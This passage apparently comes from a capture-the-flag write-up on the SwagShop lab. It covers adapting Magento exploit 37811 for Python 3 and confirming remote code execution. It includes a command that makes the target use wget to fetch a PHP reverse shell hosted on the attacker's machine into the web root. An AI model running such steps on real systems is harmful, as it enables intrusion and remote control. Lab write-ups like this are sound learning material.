 *(not related to Python versions, but for exploit functionality)

<img src="/assets/img/posts/SwagShop/exploit-37811-code-changes-1.png">

Byte endcoding and decoding for lines: `60`, `68`, `71`, `72`, `74`

Print function on `Line 81`.

<img src="/assets/img/posts/SwagShop/exploit-37811-code-changes-2.png">

Running the exploit with a simple OS command (`uname -a`), it appears we do have remote code execution on the backend server.

<img src="/assets/img/posts/SwagShop/exploit-37811-execution.png">

I wasn't able to get a reverse shell directly from the exploit. I assume it might have been because of the encoding and decoding of the different byte strings because the command outputs are all prefixed with a `b'` But I was able to instruct the server to download a reverse shell file that I was hosting from my attacking VM.

After modifying the php reverse shell with my IP and port, I launched a simple Python web server using the following command: `python3 -m http.server 80`

Next I reran the exploit, using `wget http://10.10.14.2/shell.php` to download the reverse shell file from my attacking VM (`10.10.14.2`), which would then be stored in the root of the `/var/www/html/` directory of the target server.
